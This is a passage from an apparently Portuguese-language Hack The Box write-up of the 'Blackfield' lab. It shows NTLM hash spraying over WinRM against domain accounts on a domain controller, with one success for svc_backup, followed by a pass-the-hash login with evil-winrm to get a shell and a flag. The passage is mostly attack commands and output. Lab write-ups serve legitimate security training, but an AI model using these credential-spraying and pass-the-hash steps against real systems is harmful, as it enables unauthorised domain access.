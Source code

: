 ```bash
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\audit2020:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\svc_backup:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Guest:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Ipwn3dYouCompany:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\krbtgt:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\lydericlefebvre:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\audit2020:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\svc_backup:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Administrator:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Guest:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Ipwn3dYouCompany:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\krbtgt:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\lydericlefebvre:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\audit2020:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

​	Tendo descoberto o login válido do usuário [svc_backup](https://technicalnavigator.in/how-to-extract-information-from-dmp-files/), podemos logar em sua conta utilizando o **evil-winrm** e pegar a flag de user.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ evil-winrm -i blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir

    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
```